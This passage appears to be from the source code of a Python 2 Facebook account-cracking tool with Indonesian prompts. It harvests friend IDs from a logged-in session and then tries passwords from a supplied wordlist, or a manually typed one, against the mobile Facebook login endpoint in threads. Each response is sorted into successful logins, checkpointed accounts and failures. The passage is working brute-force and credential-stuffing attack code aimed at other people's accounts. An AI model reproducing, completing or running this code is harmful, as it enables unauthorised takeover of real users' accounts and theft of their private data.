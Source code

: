 		else:
			tampil('\rm[!]Batal')
			keluar()
	while 1:
		saring_id_teman(buka(next))
		try:
			next = br.find_link(url_regex= 'friends_center_main').url
		except:
			tampil('\rm[!]Hanya dapat mengambil \rp%d id'%len(id_bteman))
			break
	simpan()
	i = inputD('[?]Langsung Crack (y/t)',['Y','T'])
	if i.upper() == 'Y':
		return crack(id_bteman)
	else:
		return menu()
class mt(threading.Thread):
    def __init__(self,i,p):
        threading.Thread.__init__(self)
        self.id = i
        self.a = 3
        self.p = p
    def update(self):
        return self.a,self.id
    def run(self):
        try:
             data = urllib2.urlopen(urllib2.Request(url='https://m.facebook.com/login.php',data=urllib.urlencode({'email':self.id,'pass':self.p}),headers={'User-Agent':'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16'}))
        except KeyboardInterrupt:
            os.sys.exit()
        except:
            self.a = 8
            os.sys.exit()
        if 'm_sess' in data.url or 'save-device' in data.url:
            self.a = 1
        elif 'checkpoint' in data.url:
            self.a = 2
        else:
            self.a = 0
def crack(d):
	i = inputD('[?]Pake Passwordlist/Manual (p/m)',['P','M'])
	if i.upper() == 'P':
		while 1:
			dir = inputD('[?]Masukan alamat file')
			try:
				D = open(dir,'r').readlines()
			except:
				tampil('\rm[!]Gagal membuka \rk%s'%dir)
				continue
			break
		tampil('\rh[*]Memulai crack dengan \rk%d password'%len(D))
		for i in D:
			i = i.replace('\n','')
			if len(i) != 0:
				crack0(d,i,0)
		i = inputD('[?]Tidak Puas dengan Hasil,Mau coba lagi dasar serakah (y/t)',['Y','T'])
		if i.upper() == 'Y':
			return crack(d)
		else:
			return menu()
	else:
		return crack0(d,inputD('[?]Sandi'),1)
def crack0(data,sandi,p):